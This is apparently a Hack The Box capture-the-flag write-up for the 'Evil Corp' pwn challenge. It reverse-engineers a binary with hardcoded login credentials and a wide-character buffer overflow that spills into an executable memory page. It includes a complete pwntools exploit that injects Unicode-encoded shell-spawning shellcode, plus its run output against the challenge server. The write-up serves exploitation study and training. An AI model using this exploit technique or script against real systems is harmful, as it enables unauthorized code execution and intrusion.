

# Description

>
> We turned our assembly tester off because a big mistake from our new C developer. Do you think there are other mistakes he made ?

# Reverse Engineering

```sh
$ checksec evil-corp
[*] '/home/alter/lab/HTB/chal/pwn/Evil Corp/pwn_evil_corp/evil-corp'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        PIE enabled
    Stripped:   No
```

From `checksec` result, we know that:

- `RELRO`: `Partial RELRO` → The `GOT (Global Offset Table)` is writable, making it vulnerable to `GOT overwrite` attacks.
- `Stack Canary`: `No canary found` → No stack protection, making it susceptible to `buffer overflow` attacks.
- `NX`: `NX enabled` → Non-executable stack, preventing direct execution of injected `shellcode`.
- `PIE`: `PIE enabled` → The binary is position-independent, enabling ASLR (Address Space Layout Randomization) for better security.

This program is quite simple; its main function essentially runs an infinite loop. Inside the loop, it alternates between showing messages and handling user inputs, depending on whether the user is logged in or not. for 4 seconds
The program is quite simple. Its main function runs an endless loop that alternates between showing messages and handling user inputs, depending on whether the user is logged in.

```c
int __fastcall __noreturn main(int argc, const char **argv, const char **envp)
{
  Setup(argc, argv, envp);
  while ( 1 )
  {
    WelcomeMsg();
    if ( LOGGED_IN )
    {
      WelcomeMsg();
      ShowNotifications();
      GetOpt();
    }
    else
    {
      Login();
    }
  }
}
```

Depending on whether the user is logged in, the program calls different external functions:

- `WelcomeMsg()`: Always displays a greeting banner.
- `ShowNotifications()` and `GetOpt()`: These are only executed when the user is logged in. While `ShowNotifications()` shows messages, `GetOpt()` presents a menu of options.
- `Login()`: If the user isn’t logged in, this function is called to prompt for credentials and handle authentication. In fact, it's the first action you encounter when the program starts.

But first we need to see what the `Setup` function does before going into further analysis and coming up with ideas to exploit it.

```c
void *Setup()
{
  void *AssemblyTestPage; // rax

  setlocale(6, "en_US.UTF-8");
  setvbuf(stdin, 0LL, 2, 0LL);
  setvbuf(_bss_start, 0LL, 2, 0LL);
  SupportMsg = mmap((void *)0x10000, 0x4B0uLL, 3, 16434, -1, 0LL);
  AssemblyTestPage = mmap((void *)0x11000, 0x800uLL, 7, 16434, -1, 0LL);
  AssemblyTestPage = AssemblyTestPage;
  return AssemblyTestPage;
}
```

The `Setup` function initializes the runtime environment by configuring locale settings, buffering behavior, and reserving specific memory regions. Here's a polished breakdown:

```c
setlocale(6, "en_US.UTF-8");
```

This call sets the program's locale to `US English` with `UTF-8` encoding, ensuring proper formatting and support for multibyte characters. For terminal we can setup like this:

```sh
sudo locale-gen en_US.UTF-8
```

```c
setvbuf(stdin, 0LL, 2, 0LL);
setvbuf(_bss_start, 0LL, 2, 0LL);
```

These functions modify the buffering behavior for stdin and another memory segment (_bss_start), which can affect input/output performance.

And then two key memory regions are allocated:

- Support Message Region:
  ```c
  SupportMsg = mmap((void *)0x10000, 0x4B0uLL, 3, 16434, -1, 0LL);
  ```

  This reserves a memory area starting at address 0x10000 with a size of 0x4B0 bytes (approximately 1200 bytes). The permission flag 3 typically represents read and write access. The specific flags (like 16434) define additional mapping properties, such as shared or private mappings.

- Assembly Test Page:

  ```c
  AssemblyTestPage = mmap((void *)0x11000, 0x800uLL, 7, 16434, -1, 0LL);
  ```

  Here, a memory block starting at 0x11000 with a size of 0x800 bytes (2048 bytes) is allocated. The permission flag 7 generally allows read, write, and execute permissions, which is useful for testing or executing dynamically generated code.

Although `NX is enabled` to prevent execution in most memory regions, the program circumvents this by explicitly allocating the `AssemblyTestPage` region with executable permissions. This design allows the `shellcode` to be executed by redirecting the program's flow to that region.

As the flow of the program, first we have to log in, and then it allows us to use other functions of the program.

```c
int Login()
{
  int result; // eax
  wchar_t ws_1[32]; // [rsp+0h] [rbp-158h] BYREF
  wchar_t ws[32]; // [rsp+80h] [rbp-D8h] BYREF
  _QWORD v3[2]; // [rsp+100h] [rbp-58h] BYREF
  _QWORD v4[6]; // [rsp+110h] [rbp-48h] BYREF
  int v5; // [rsp+140h] [rbp-18h]

  v4[0] = 0x6C00000050LL;
  v4[1] = 0x6100000065LL;
  v4[2] = 0x6500000073LL;
  v4[3] = 0x6C00000020LL;
  v4[4] = 0x670000006FLL;
  v4[5] = 0x6E00000069LL;
  v5 = 0;
  v3[0] = 0x767B00008BF7LL;
  v3[1] = 24405LL;
  wprintf(U"%ls , %ls \n", v4, v3);
  wprintf(U"Username: ");
  fgetws(ws, 30, stdin);
  wprintf(U"Password: ");
  fgetws(ws_1, 300, stdin);
  if ( wcscmp(ws, U"eliot\n") || (result = wcscmp(ws_1, U"4007\n")) != 0 )
  {
    wprintf(U"Sorry, please try again or contact your system administrator.\n");
    return wprintf(&format_);
  }
  else
  {
    LOGGED_IN = 1;
  }
  return result;
}
```

We can quickly obtain the username and password needed to access the internal dashboard—the program first checks the username and then verifies the password.

```c
  if ( wcscmp(ws, U"eliot\n") || (result = wcscmp(ws_1, U"4007\n")) != 0 )
  {
    wprintf(U"Sorry, please try again or contact your system administrator.\n");
    return wprintf(&format_);
  }
```

The binary has hardcoded credentials: username `eliot` and password `4007`. Instead of using the standard functions like `printf`, `fgets`, and `strcmp` for handling regular strings, it uses their wide-string counterparts (`_wprintf`, `_fgetws`, and `_wcscmp`) to work with `Unicode` strings.

:::note
Wide strings in C and C++ are designed to support characters that require more than the usual 8 bits of a regular char. This makes them ideal for working with character sets that go beyond ASCII, especially those used in non-English languages. A wide character string `(wchar_t *)` typically allocates 16 or 32 bits per character, enabling it to represent a vast range of Unicode characters from around the world.
:::

So to solve this challenge we need to understand how `wschar` and functions like `fgetws`, `wprintf` work. I used gdb to jump into the `login` function to see how a `fgetws` function works


Now we can clearly see that the `_fgetws` function reads each character entered by the user into a `4-byte` (32-bit) memory block, which is stored on the stack using the provided pointer. This setup allows the program to reserve up to 4 bytes for every character you input. Unlike the standard 1-byte ASCII, Unicode characters use these extra bytes to represent a wide array of symbols and languages, thanks to different encoding forms.

:::note
- UTF-8: This is a variable-width encoding that uses between 1 and 4 bytes per character. It's efficient for texts mainly consisting of ASCII characters, while still supporting the full range of Unicode characters.

- UTF-16: Most characters are encoded in 2 bytes. However, characters outside the Basic Multilingual Plane require 4 bytes.

- UTF-32: Every character is encoded in 4 bytes, regardless of its complexity or position in Unicode.
:::

And after successfully logging in, the program will transfer us to the `GetOpt` function.



```c
void GetOpt()
{
  int v0; // eax
  wchar_t ws[4]; // [rsp+0h] [rbp-10h] BYREF

  while ( LOGGED_IN )
  {
    wprintf(U"Main Menu: \n");
    wprintf(U"\x1B[90m1. Assembly Tester (ofs *_*)\x1B[0m \n");
    wprintf(U"2. Contact Support\n");
    wprintf(U"3. Logout\n");
    wprintf(U"4. Exit\n");
    wprintf(U">> ");
    fgetws(ws, 4, stdin);
    v0 = wcstol(ws, 0LL, 10);
    switch ( v0 )
    {
      case 1:
        wprintf(U"Sorry, This option is not available.\n");
        wprintf(&format__0);
        break;
      case 2:
        ContactSupport();
        break;
      case 3:
        wprintf(U"Goodbye.\n");
        wprintf(&format__1);
        LOGGED_IN = 0;
        break;
      case 4:
        exit(0);
      default:
        wprintf(U"Invalid option.\n");
        wprintf(&format__2);
        break;
    }
    wprintf(U"\n");
  }
}
```

And with the `pseudo-code` part, we can see that option 1 doesn't work. So we have only one last option left, which is 2.

```c
int ContactSupport()
{
  wchar_t ws[4002]; // [rsp+0h] [rbp-3E88h] BYREF

  wprintf(
    U"Please in less than 1000 character describe your issue and we will \n"
     "contact you for further information if necessary.\n");
  wprintf(&format__3);
  fgetws(ws, 4096, stdin);
  wcharToChar16(ws, SupportMsg, 4096LL);
  return wprintf(aThankYou);
}
```

In this `ContactSupport` there is a `Buffer Overflow` bug here. After reading the input, the function converts the wide-character string in ws to another format (likely a `16-bit` character representation) and stores it in `SupportMsg`. The conversion processes up to 4096 characters, further emphasizing the risk of overflow if the input exceeds the intended size.

Now that we've identified where the input data is stored, we need to further understand how the data is converted and written into memory.

```c
__int64 __fastcall wcharToChar16(unsigned int *a1, _WORD *a2, unsigned __int64 a3)
{
  __int64 result; // rax

  for ( result = *a1; a3 > 1 && (_DWORD)result; result = *a1 )
  {
    ++a1;
    *a2++ = result;
    --a3;
  }
  *a2 = 0;
  return result;
}
```

The `wcharToChar16` function converts wide characters into UTF-16 encoding. Unlike standard libc functions that often start with an underscore, this custom function doesn't, which indicates it's tailored specifically for this program. We can later review its source code definition to see exactly how it converts the input data. Let's break down the wcharToChar16 function step by step:

1. Parameter
  - `unsigned int *a1`: Pointer to the source wide-character string. Each element is 32 bits.
  - `_WORD *a2`: Pointer to the destination buffer where the converted UTF-16 (16-bit) characters will be stored.
  - `unsigned __int64 a3:` The size limit (maximum number of 16-bit units) for the destination buffer.

2. Initialization and Loop Condition:

  - The loop starts by setting `result = *a1`, which reads the first 32-bit wide character.
  - The loop continues as long as:
    - There is space in the destination buffer (`a3 > 1`), leaving room for the null terminator.
    - The current character (`result`) is `non-zero` (i.e., it hasn’t reached the end of the string).

  


3. Inside the Loop:

  - Increment Source Pointer: `++a1;` moves to the next wide character.
  - Convert and Copy: `*a2++ = result;` copies the current 32-bit value into the destination buffer as a 16-bit value.

    

    Note: This operation essentially truncates the 32-bit value to 16 bits. It assumes that the wide character fits in 16 bits (which is the case for many common Unicode characters but may lose data for characters outside the Basic Multilingual Plane).
  - Decrement Buffer Size: `--a3;` decreases the available space counter.

    

4. After the Loop:

  - Null-Terminate the Destination String: `*a2 = 0;` writes a null terminator at the end of the destination string.
  - Return Value: The function returns the last value of result. Typically, if the loop terminates due to reaching the end of the string (i.e., encountering a zero), result will be zero.

  

The function converts characters from a `4-byte` wide-character format (such as `UTF-32`) to `UTF-16` by copying only the lower `16 bits`. As a result, any higher-order bits are discarded, potentially causing data loss if they were set. Once the conversion is done, the `UTF-16` characters are stored at the address held by the `rsi` register (in this case, `cs:SupportMsg`), which was allocated earlier during the `Setup` function.

# Exploit Development

So after analyzing everything, we know what we need to do now is to pad `cs:SupportMsg` and let it overflow the `cs:AssemblyTestPage` area. Because, `SupportMsg` is above `AssemblyTestPage`


So as introduced above, we will have to restructure our input data into wide-string to fit the program. To do that we can look up this [page](https://unicode-explorer.com/). For example, the address of `mmap'ed` memories `cs:SupportMsg` & `cs:AssemblyTestPage` can be defined as:

```py
    supportmsg   = '𐀀'
    assemblytestpage = '𑀀'
```

Because the function only copies the lower `16 bits`, it can’t accurately handle characters with higher code points—like `U+10000`—which require more than 16 bits.


And the same goes for `cs:AssemblyTestPage`:


Next is our shellcode, we can use `pwntools` to generate the shellcode, and thanks to pwntools also gave us the tool to decode that shellcode to `UTF-16`

```py
shellcode =  asm(shellcraft.sh()).decode('utf-16')
```

Next is the issue of padding: `fgetws` stores each input character as a wide character, which on our system occupies `4 bytes` instead of the usual 1 byte for ASCII. Therefore, even simple characters use 4 bytes of memory. Since the buffer is declared as wchar_t ws[4002], it allocates `4002 × 4 = 16,008 bytes` in total.
When calculating the offset from the start of the input data to the `saved RIP`, remember that the offset is measured in bytes. Since each wide character occupies `4 bytes`, you must divide the byte offset by 4 to convert it into an offset in terms of wide characters.

```sh
pwndbg> i f
Stack level 0, frame at 0x7ffc6dd0edf0:
 rip = 0x55c72be5279a in ContactSupport; saved rip = 0x11000
 called by frame at 0x7ffc6dd0edf8
 Arglist at 0x7ffc6dd0af58, args:
 Locals at 0x7ffc6dd0af58, Previous frame's sp is 0x7ffc6dd0edf0
 Saved registers:
  rbx at 0x7ffc6dd0ede0, rip at 0x7ffc6dd0ede8
pwndbg> p/x 0x7ffc6dd0ede8-0x7ffc6dd0af60
$1 = 0x3e88
pwndbg> p/x 0x3e88/4
$2 = 0xfa2
```

Finally, we overwrite the `saved RIP` with the exact address of `cs:AssemblyTestPage`. It's crucial to append a `null byte` after this address to ensure it is correctly terminated.

```py
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwncus import *

context.log_level = 'debug'
exe = context.binary = ELF('./evil-corp', checksec=False)
context.arch = 'amd64'
libc = exe.libc

def start(argv=[], *a, **kw):
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript='''
        b*ContactSupport+60
        b*ContactSupport+110
        c
        '''.format(**locals()), *a, **kw)
    elif args.REMOTE:
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw, aslr=False)

p = start()

# ==================== EXPLOIT ====================

def login():
    sla(b'Username: ', b'eliot')
    sla(b'Password: ', b'4007')


def choice(option):
    sla(b'>> ', f'{option}'.encode())


def shellcode():

    # Using https://unicode-explorer.com/
    supportmsg   = '𐀀'
    assemblytestpage = '𑀀'

    # Using pwntools functions
    nop = b'\x90\x00'.decode('utf-16-le')
    null = '\x00'

    shellcode =  asm(shellcraft.sh()).decode('utf-16')

    # Padding is 0x3e88 / 4 = 0xfa2
    payload = nop * 0x800
    payload += shellcode
    payload = payload.ljust(0xfa2, null)
    payload += assemblytestpage + null
    # payload += nop * 2

    return payload


def exploit():

    login()
    choice(2)

    payload = shellcode()

    msg = '信息'.encode('utf-8') +b'\x0a' +b'\x0a'

    sla(msg, payload)

    interactive()

if __name__ == '__main__':
  exploit()
```

# Get flag

```sh
alter ^ Sol in ~/lab/HTB/chal/pwn/Evil Corp/pwn_evil_corp
$ ./xpl.py REMOTE 94.237.55.157 30154
[*] '/usr/lib/x86_64-linux-gnu/libc.so.6'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        PIE enabled
    SHSTK:      Enabled
    IBT:        Enabled
[+] Opening connection to 94.237.55.157 on port 30154: Done
/home/alter/custom_libs/pwncus/pwncus.py:14: BytesWarning: Text is not bytes; assuming UTF-8, no guarantees. See https://docs.pwntools.com/#bytes
  sla = lambda msg, data: __main__.p.sendlineafter(msg, data)
[*] Switching to interactive mode

Thank you!
谢谢
$ cat flag.txt
HTB{45c11_15_N07_4L0000n3}
```
